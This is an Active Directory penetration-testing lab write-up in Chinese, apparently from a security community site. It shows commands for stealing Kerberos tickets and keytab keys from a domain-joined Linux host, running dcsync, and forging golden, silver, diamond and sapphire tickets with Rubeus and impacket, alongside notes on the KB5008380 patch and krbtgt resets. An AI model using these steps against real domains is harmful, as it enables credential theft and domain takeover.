# AD 学习记录（下） - 先知社区

AD 学习记录（下）

- - -

补全在 Linux 在域中的渗透技巧、以及常见的各种票据和新版 windows 实验中遇到的一些棘手的问题

### 环境搭建

一般域搭建可以参考@倾旋的[最快的方式搭建域环境](https://payloads.online/archivers/2019/04/13/c5a00e72-804f-4289-8149-1bc5c1851146)，为了演示 linux 下的攻击利用手法，我这里补全 Ubuntu 加入域环境的过程，我整个域环境有三台服务器：

域控 windows 2016：ad.endlessparadox.com  
普通 windows 服务器 2016：web1.endlessparadox.com【也是 AD CS 服务器】  
普通 linux ubuntu 服务器：nanami-virtual-machine.endlessparadox.com

管理员账户：`administrator@endlessparadox.com`  
普通账户：`satoru@endlessparadox.com`

安装依赖环境：

```plain
apt-get update
```

```plain
sudo apt install sssd-ad sssd-tools realmd adcli krb5-user
```

修改 dns 地址到域控的 ip，可以修改`/etc/systemd/resolved.conf` 的 dns 值：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206035551-90b44a4c-c460-1.png)

重启服务直接再检查是否成功：

```plain
systemctl restart systemd-resolved
systemd-resolve --status
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206035606-99852d26-c460-1.png)

也可以直接修改这个配置，不过重启之后配置会消失

```plain
vim /etc/resolv.conf
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206035639-ad53f1b6-c460-1.png)

利用 realm 发现域，这里要填域控的域名

```plain
realm -v discover ad.endlessparadox.com
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206035722-c70282c6-c460-1.png)

直接利用域管理员账户加入域环境，需要输入管理员密码，等待一会儿就好了

```plain
realm join ad.endlessparadox.com
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206035736-cecaee1c-c460-1.png)

启用自动创建主目录，这意味着每次登录进来的用户都会在本机 linux 的 home 目录下新建

```plain
sudo pam-auth-update --enable mkhomedir
```

查看 ad 内的用户和所属组，我自己在域中有一个 satoru 的普通用户

```plain
getent  passwd  satoru@endlessparadox.com
```

```plain
groups satoru@endlessparadox.com
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206035751-d83602a2-c460-1.png)

这个时候可以尝试登录了，

```plain
sudo login
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206035800-dd29304a-c460-1.png)

klist 命令在 linux 也有，可以查看当前登录的票据信息和位置，不过必须要在域用户下显示票据信息

```plain
klist
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206035812-e4a34900-c460-1.png)

利用 smbclient 查看可以访问文件共享

```plain
smbclient -k -L ad.endlessparadox.com
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206035823-eb04e90c-c460-1.png)

利用 realm 命令查看是否成功加入域：

```plain
realm list
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206035834-f1668a94-c460-1.png)

这里 satoru 的账户权限不够无法查看详细内容，我用域管理员再演示一下查看指定的内容：

```plain
smbclient //web1.endlessparadox.com/admin$ -k -c 'ls'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206035847-f948e7b6-c460-1.png)

我这里是桌面端，还需要配置 ssh 服务和开启支持 ssh 的 kerberbos 身份验证：

```plain
apt install openssh-server --fix-missing
```

完成之后修改/etc/ssh/sshd\_config 配里面的选项开启

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206035902-02301822-c461-1.png)

重启服务：

```plain
/etc/init.d/sshd restart
```

在外面验证一下能不能登陆：

```plain
ssh administrator@endlessparadox.com@192.168.43.137
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206035913-08cc601e-c461-1.png)

完成环境搭建就可以进入攻击手法的演示了

### 手法演示

#### 利用 root 权限提取 CCACHE ticket

假设我们已经攻限了此台 linux 服务器，通过各种提权手法拿到了最高的 root 权限，能不能就像 windows 机器一样提取出类似 TGT 和 TGS 的票据来支持我们横向移动呢？

当然可以，只需要在 root 用户执行命令就能找到存在 tmp 目录下的所有票据

```plain
ls /tmp/ | grep krb5cc
```

系统贴心的告诉我们每个文件对应的是那个域用户，目前 tmp 下有两个用户，administrator 和 satoru，注意到默认的权限是 600 了吗，只有 root 能查看

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206035957-235f450e-c461-1.png)

票据不大，我们直接 base64 编码复制出来：

```plain
base64 /tmp/krb5cc_285400500_xkhemD | tr -d '\n'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206040009-2a664906-c461-1.png)

在 kali 重新解码生成原始票据文件：

```plain
echo '刚刚拿到的编码'  | base64 -d > krb5cc_285400500_xkhemD
```

之后直接利用 impacket-smbexec 横向移动到 windows 域控制器，执行命令看看是否有问题

```plain
KRB5CCNAME='krb5cc_285400500_xkhemD'  /usr/bin/impacket-smbexec -target-ip 192.168.43.136 -dc-ip 192.168.43.136 -k  -no-pass @'ad.endlessparadox.com'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206040023-328f24e0-c461-1.png)

完美，而且票据的默认有效时间是大约 1 天，不算长也不算短，认证总是频繁发生不是嘛

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206040033-38a483c0-c461-1.png)

虽然我们是从 sudo login 登陆进来的，其实 ssh 通过 kerbores 协议认证之后也会产生这类缓存票据

#### 利用/etc/krb5.keytab 文件恢复密钥或者 hash

krb5.keytab 文件记录这一些服务主体的密钥表，密钥表类似于用户的口令，可以使用命令来查看记录了有那些服务的主体：

```plain
klist -k /etc/krb5.keytab
```

我这里是测试环境只有一些这台 linux 本身的服务，这可能看起来没什么用，但是现实中的大型集群认证可能存在一个额外添加的 keytab 文件认证服务，也可能存在计划任务中运行特定的清除垃圾任务需要用到独立的 keytab 文件，从而利用可以横向移动到其他服务或者主机打通通向域控的路径

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206040055-458894aa-c461-1.png)

要利用也并不难，自带的命令即可请求一个新的 tgt

```plain
kinit  -k  NANAMI-VIRTUAL-$
```

可以看到 klist 命令已经出现的我们刚刚申请的 NANAMI-VIRTUAL-$票据了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206040106-4c110564-c461-1.png)

如果是独立的 keytab 文件可以指定-t 来选中文件

```plain
kinit -k  '用户'  -t 'keytab 文件'
```

我们也可以借助[脚本解密](https://github.com/sosdave/KeyTabExtract)/etc/krb5.keytab文件，非常有意思，NTLM HASH，也许会存在密码重用让我们横向移动到其他服务或者干脆破解出明文，无限的可能

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206040122-557fbd8e-c461-1.png)

#### 利用内核 keyring 提取票据

在 Linux 中，"keyring"是内核中的一个特性，它是内核内存中的一个区域，用于管理和保存密钥。这些密钥不仅仅是加密密钥，它们可以是任意数据，例如 Kerberos 票据

利用现有的[工具](https://github.com/TarlogicSecurity/tickey), Tickey 使得我们可以从进程内存或者内核中 dump 出票据信息，编译需要安装依赖环境

```plain
apt-get install libc-dev
```

下载完成直接编译

```plain
make CONF=Release
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206040140-60bcfbee-c461-1.png)

发现报错，注意到上面报错`bits/signum.h`是 GNU C 库（glibc）的一个内部头文件，应该修改为更高层的头文件`signal.h`

编译完成就可以运行了，也许能找到一些内核中的票据，不过显然我的 Ubuntu 系统没有

```plain
./tickey
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206040156-6a1d060c-c461-1.png)

不必太纠结，我已经演示完成了 Linux 下的攻击利用方法，现在再来谈谈权限维持。

### 黄金票据 Golden tickets

黄金票据跳过了正常 kerberos 认证中的前两步，使用 krbtgt 的 hash 来自己签发 TGT 票据，通过 TGT 去申请新的 TGS，可以让我们伪造任意的用户访问任意的服务，而且微软默认的 krbtgt 从不会自己修改密码，这意味持久化的控制，黄金票据最长能签发 10 年，而且我们随时能签发新的票据；

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206040241-851a357e-c461-1.jpeg)

实验要用到 Rubeus，需要自己编译 Rubeus.exe，要选 principal 分支点，release 的太老了还不支持生成黄金票据和白银票据：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206040259-8f618ec4-c461-1.png)

在管理员的会话中执行 dcsync 拿到 krbtgt 的密钥

```plain
dcsync endlessparadox.com endlessparadox\krbtgt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206040318-9af18078-c461-1.png)

这里我需要查找 krbtgt 的 sid，502 代表的是 krbtgt 所属的组，使用的时候只要去掉最后的 -502，

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206040327-a09347b4-c461-1.png)

mimikatz 给我们导出了三种类型的 hash，微软默认现在用 aes256 加密，用其他的效果也一样：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206040339-a7799b1e-c461-1.png)

使用命令本地生成黄金票据，aes 是目前标准的加密方法，/user 指定任意的用户名，域控制器中的 KDC 服务不验证 TGT 中的用户帐户，直到 TGT 超过 20 分钟，用户可以是不存在的用户，kerberos 是静态协议，在我们这侧工具会自动把我们伪造的用户指定在管理员组，域控只会被动接受这个事实，/nowrap 是让票据变成一行方便我们复制粘贴：

```plain
Rubeus.exe golden /aes256:4a3d7520e5249a47c1fea8584229f5278a3a0b6d3fa3545aedb29b1cae457ead /user:hacker /domain:endlessparadox.com /sid:S-1-5-21-3455334608-937969980-1598144099 /nowrap
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206040353-afc7e226-c461-1.png)

execute-assembly命令用于远程拉取c#文件不落地执行，这里执行Rubeus的createnetonly命令，将创建一个新的cmd进程将票据注入其中，/ticket参数后面跟上刚刚生成的base64票据，不是很大，我们复制过来：

```plain
execute-assembly C:\tools\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:endlessparadox /username:hacker /password:123456 /ticket:doIFlz····NvbQ==
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206040405-b6cfc638-c461-1.png)

执行成功了，控制台内容详细的展示了我伪造的进程 pid:

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206040413-bbe14052-c461-1.png)

在普通用户会话下偷取令牌过来，然后我们应该可以成功访问到 DC 了，但是现实居然是无法打开，怎么回事？还给出了错误 code 1326，ERROR\_LOGON\_FAILURE，这意味着我的 TGT 被立刻吊销了：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206040422-c0ff5a1a-c461-1.png)

我仔细检查了所有参数，看起来我的操作没问题，怎么回事，为什么无法认证？经过一天的查阅资料，我发现实际上微软已经发布了补丁缓解了黄金票据的攻击不允许任意的用户通过 DC 的认证了，而我的环境正是最新的 windows server 2016，打上了所有的补丁

我们稍后再来仔细分析补丁的修补情况，现在我们需要修改真实存在的用户名，administrator，由于默认的用户的 sid 是 500 和我们伪造的一致所以不需要显示指定

```plain
Rubeus.exe golden /aes256:4a3d7520e5249a47c1fea8584229f5278a3a0b6d3fa3545aedb29b1cae457ead /user:administrator /domain:endlessparadox.com /sid:S-1-5-21-3455334608-937969980-1598144099 /nowrap
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206040448-d06dca22-c461-1.png)

在 CS 控制台，我们使用 execute-assembly 创建一个新的进程

```plain
execute-assembly C:\tools\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:endlessparadox /username:administrator /password:123456 /ticket:doIF1····0=
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206040459-d6ed5570-c461-1.png)

控制台会给出伪造票据的进程 id

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206040505-dad5e44a-c461-1.png)

利用 steal\_token 偷取进程的令牌，再次验证票据是否工作：

```plain
ls \\ad.endlessparadox.com\c$
```

完美，我们现在成功伪造了管理员，可以访问域控的 smb 服务，再一次到达了最高权限虽然控制台显示还是 satoru 这个普通用户，但这是 CS 显示的错误，它没办法区分当下模拟了那个用户

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206040514-e04c9b12-c461-1.png)

#### 根除方法

一旦域控被打下来，网上资料说需要迅速重置 krbtgt 账户的密码，微软提供了[脚本](https://github.com/microsoft/New-KrbtgtKeys.ps1/tree/master),只需要在域控上执行 powershell 脚本，但是实际上真的有用吗？让我们实验一下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206040554-f7b3ef62-c461-1.png)

会询问你确定是否要阅读注意事项，生产环境应该仔细阅读，先经过模拟测试在执行真实重置：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206040603-fd2c5e7a-c461-1.png)

最后执行完成，我们看看票据还能不能工作了，好家伙，居然还能工作？

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206040609-0102a8d8-c462-1.png)

再一次查询资料发现，官方说法其实重置 krbtgt 的密码只是策略的一部分，单纯改密码并没有用；即使 KrbTgt 账户的密码被重置，只是无法用伪造的黄金票据申请新的 TGS 了，但是攻击者之前缓存的对域控的 CIFS 服务的 TGS 实际上还是可以用的，如果不吊销，我们将再一次打下域控拿到重置后的密钥；哈哈哈，最后我重启了 web1 机器，缓存的票据被清空了，这下真的无法访问了。

### 白银票据 Silver tickets

白银票据跳过了前面四步，直接使用服务的 hash 伪造 TGS，这使得白银票据没有黄金票据那么强大，但对比黄金票据更加隐蔽，我们不需要和 DC 沟通直接访问服务资源：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206040636-10ba111c-c462-1.jpeg)

TGS 只能对应一个服务，服务主体以前不验证 PAC，但是现在微软身份验证已经更新，必须要指定存在的用户名了，不过这个用户即使之前没有权限访问这个服务也能通过认证，这一点还是和以前一样，现在再演示一下

通过 logonpasswords 可以拿到机器账户的 NTLM hash，带有$符号的是机器的账户我们制作的白银票据就是需要机器的密钥，通过这个密钥可以伪造各种票据到这台机器上的任意服务

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206040648-18008eb0-c462-1.png)

这台 ad 是域控，开放着 cifs（445 的文件共享）服务和 ldap 服务，这里我伪造的 cifs，也就是下面的/service 参数；/rc4 填入刚刚拿到的 ntlm hash 就可以了；/sid 还是域的 sid，这个之前已经拿到了

```plain
Rubeus.exe silver /service:cifs/ad.endlessparadox.com /rc4:c783a03c8f07f1d75c2b741cd93fe8c0 /user:administrator /domain:ad.endlessparadox.com /sid:S-1-5-21-3455334608-937969980-1598144099 /nowrap
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206040704-21ac11a0-c462-1.png)

复制出票据来，执行命令创建一个新的进程

```plain
execute-assembly C:\tools\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:endlessparadox /username:administrator /password:FakePass /ticket:doIF···vbQ==
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206040713-271f86b2-c462-1.png)

再次执行 steal\_token 拿到访问令牌，验证成功 ad 的 cifs 服务，当然机器的密码 30 天会自动更新，短期的权限维持已经足够了；

```plain
ls \\ad.endlessparadox.com\c$
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206040727-2f4da486-c462-1.png)

如果 cifs 服务不可用，可以使用域控一定开放的 ldap 服务，然后导入票据执行 dcsync 再次打下域控：

```plain
Rubeus.exe silver /service:ldap/ad.endlessparadox.com /rc4:c783a03c8f07f1d75c2b741cd93fe8c0 /user:satoru /domain:ad.endlessparadox.com /sid:S-1-5-21-3455334608-937969980-1598144099 /nowrap
```

```plain
execute-assembly C:\tools\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:endlessparadox /username:satoru /password:FakePass /ticket:d·····
```

```plain
dcsync endlessparadox.com endlessparadox\krbtgt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206040737-356cd3e6-c462-1.png)

### KB5008380 身份验证更新

这个补丁为了解决[CVE-2021-42287](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42287)引入了新的身份验证过程，在 2021 年 11 月 9 日至 2022 年 6 月 14 日之间发布的 Windows 更新中安装 CVE-2021-42287 保护后出现了个新的注册表：

```plain
HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\Kdc
```

默认情况下为 1，进行身份验证时，如果用户拥有新的 PAC，则该 PAC 会被验证。如果用户没有新的 PAC，则不会采取进一步的操作，如果为 2，用户没有新的 PAC，则身份验证将被拒绝；

2022 年 7 月 12 日或更高版本更新后，该值将不存在，用户要通过认证必须要使用新的 PAC；PAC 增加了两个数据结构 PAC\_ATTRIBUTES\_INFO 和 PAC\_REQUESTOR：

```plain
typedef struct _PAC_ATTRIBUTES_INFO {
     ULONG FlagsLength;                // specified in bits
     ULONG Flags[ANYSIZE_ARRAY];
 } PAC_ATTRIBUTES_INFO, *PPAC_ATTRIBUTES_INFO;
```

PAC\_REQUESTOR 包含应该 sid，其中域控会解析 PAC\_REQUESTOR 中用户和 sid 情况，如果 KDC 找不到用户或者和 sid 不匹配那就会直接吊销我们的 TGT

```plain
typedef struct _SID {
  BYTE                     Revision;
  BYTE                     SubAuthorityCount;
  SID_IDENTIFIER_AUTHORITY IdentifierAuthority;
#if ...
  DWORD                    *SubAuthority[];
#else
  DWORD                    SubAuthority[ANYSIZE_ARRAY];
#endif
} SID, *PISID;
```

当然我们用的 Rubeus 默认是支持新 tgt 结构的，如果要攻击没有打补丁的系统可以使用/oldpac，如果你要使用其他工具最好确保环境的兼容性；

### 钻石票据 Diamond tickets

由于黄金票据和白银票据跳过了前面的正常请求使得安全设备和日志能很容易发现这类攻击，为了解决这类问题，钻石票据闪亮登场，它自己用 krbtgt hash 的解密正常请求的 TGT，之后修改这个票据里面特定的字段，之后再重新加密，这使得安全设备更加难以检测出攻击事件的发生。

使用 rubeus 命令要跟上 diamond，/ticketuserid 是冒充用户的 rid，也就是 sid 的最后一段；

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206040812-4a2a1726-c462-1.png)

/tgtdeleg 使用 Kerberos GSS-API 为当前用户获取可用的 TGT，而无需知道他们的密码；/ticketuser 是我们要冒充的用户，权限的判断取决于这里，/groups 指定要冒充的组，要和前面冒充的用户保持一致，/krbkey 是 krbtgtAES256 的 hash，我之前重置了密码，所以现在 AES256 hash 变了，最终命令如下：

```plain
execute-assembly C:\tools\Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /groups:512 /enctype:AES256 /krbkey:3a5ae89c92ae4f54b569ecfe622ea5c5b232c2fa8ad1d9b65e9ce07ef80e3d17 /nowrap
```

执行效果：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206040821-4f7d53b4-c462-1.png)

控制台太小截图不完整，应该用最后生成修改的票据：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206040829-543d873e-c462-1.png)

复制到/ticket 后面，执行如下命令，这将把票据注入特定进程：

```plain
execute-assembly C:\tools\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:endlessparadox /username:satoru /password:FakePass /ticket:doIG·····09N
```

再次导入验证票据是否工作，攻击成功了：

```plain
ls \\ad.endlessparadox.com\c$
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206040838-59b6d8aa-c462-1.png)

如果情况比较复杂，当前会话没有可用的 TGT，可以指定伪造的用户也可以显示指定用户名和密码，就不赘述了：

```plain
execute-assembly C:\tools\Rubeus.exe diamond /domain:endlessparadox.com /user:satoru /password:1QAZ2wsx123456 /dc:ad.endlessparadox.com /enctype:AES256 /krbkey:3a5ae89c92ae4f54b569ecfe622ea5c5b232c2fa8ad1d9b65e9ce07ef80e3d17 /ticketuser:Administrator /ticketuserid:500 /groups:512  /nowrap
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206040853-627f4f12-c462-1.png)

### 蓝宝石票据 Sapphire tickets

由于钻石票据直接修改 TGT 中 PAC 显得太过直接，于是又出现了更加隐蔽的蓝宝石票据，在 Kerberos 认证过程中，蓝宝石票据（Sapphire Ticket）的产生涉及到 Kerberos 的 S4U2Self 和 U2U 扩展。这使得它成为最难检测的银/金票据的变体，在这个流程中：

-   用户首先通过正常的 Kerberos 认证流程获取到 TGT（Ticket Granting Ticket）。
-   用户随后发起一个 S4U2Self 请求，这个请求是针对自己的，但是由于服务名称（SPN）的问题，KDC（Kerberos 身份验证服务）无法解析这个请求。
-   用户接着请求 U2U 扩展，这允许用户以另一个用户的身份进行身份验证。
-   KDC 使用 U2U 扩展来获取目标用户的 TGT，这个目标用户就是高权限的用户。
-   KDC 基于目标用户的 TGT 生成一个 ST（Service Ticket）。
-   用户使用 krbtgt 账户的密钥来解密这个 ST。
-   用户修改 ST 中的 PAC（Privilege Attribute Certificate），以包含所需的权限。
-   用户重新加密 ST，生成一个新的票据，这个票据就是蓝宝石票据。

目前可用的工具唯一就[ticketer.py](https://github.com/fortra/impacket/blob/master/examples/ticketer.py), 需要注意也要用 master 分支的，不然会显示没有 impersonate 参数，坑有点多，由于伪造高度依赖和 KDC 的交互，需要在目标环境执行命令；不过我之前不正好有台在域中的 linux，理论上 windows 也是一样，不过 linux 安装方便一点，下载 master 分支之后直接运行：

```plain
python3 setup.py install
```

进入 example 文件夹执行如下命令，-impersonate 代表要模拟的用户，-nthash 和-aesKey 都是域的 hash，-user-id 记得要和前面的 administrator 用户保持一致，否则域控会直接吊销我们的 TGS，还有最后的'administrator'只是票据的文件名而已：

```plain
python3 ticketer.py -request -impersonate 'administrator' -domain endlessparadox.com -user 'satoru' -password '1QAZ2wsx123456' -nthash 'c783a03c8f07f1d75c2b741cd93fe8c0' -aesKey '3a5ae89c92ae4f54b569ecfe622ea5c5b232c2fa8ad1d9b65e9ce07ef80e3d17' -user-id '500' -domain-sid 'S-1-5-21-3455334608-937969980-1598144099' 'administrator'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206040921-73232d66-c462-1.png)

好的，我现在是管理员了，再次 smbexec.py 接管域控，现在所有票据已经演示完毕了

```plain
KRB5CCNAME='administrator.ccache'  python3 smbexec.py -target-ip 192.168.43.136 -dc-ip 192.168.43.136 -k  -no-pass @'ad.endlessparadox.com'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206040929-7848fd0c-c462-1.png)

### 总结

我们在本文谈论的关于一些比较冷门的东西，虽然实战已经能覆盖大部分，但域渗透的内容远远不止这，依然还有很多棘手的问题没有解决，但我水平有限暂时就写到这里；最后，祝师傅们新年快乐！

参考资料：

[https://ubuntu.com/server/docs/service-sssd-ad](https://ubuntu.com/server/docs/service-sssd-ad)  
[https://github.com/swisskyrepo/InternalAllTheThings/blob/main/docs/active-directory/ad-adds-linux.md](https://github.com/swisskyrepo/InternalAllTheThings/blob/main/docs/active-directory/ad-adds-linux.md)  
[https://www.novell.com/documentation/opensuse103/opensuse103\_reference/data/sec\_kerbadmin\_sshd.html](https://www.novell.com/documentation/opensuse103/opensuse103_reference/data/sec_kerbadmin_sshd.html)  
[https://github.com/sosdave/KeyTabExtract](https://github.com/sosdave/KeyTabExtract)  
[https://www.youtube.com/watch?v=lJQn06QLwEw&ab\_channel=BlackHat](https://www.youtube.com/watch?v=lJQn06QLwEw&ab_channel=BlackHat)  
[https://support.microsoft.com/en-gb/topic/kb5008380-authentication-updates-cve-2021-42287-9dafac11-e0d0-4cb8-959a-143bd0201041](https://support.microsoft.com/en-gb/topic/kb5008380-authentication-updates-cve-2021-42287-9dafac11-e0d0-4cb8-959a-143bd0201041)  
[https://blog.netwrix.com/2022/01/10/pacrequestorenforcement-and-kerberos-authentication/](https://blog.netwrix.com/2022/01/10/pacrequestorenforcement-and-kerberos-authentication/)  
[https://www.varonis.com/blog/pac\_requestor-and-golden-ticket-attacks](https://www.varonis.com/blog/pac_requestor-and-golden-ticket-attacks)  
[https://drsuresh.net/articles/kerberos2023](https://drsuresh.net/articles/kerberos2023)  
[https://github.com/fortra/impacket/blob/master/examples/ticketer.py](https://github.com/fortra/impacket/blob/master/examples/ticketer.py)
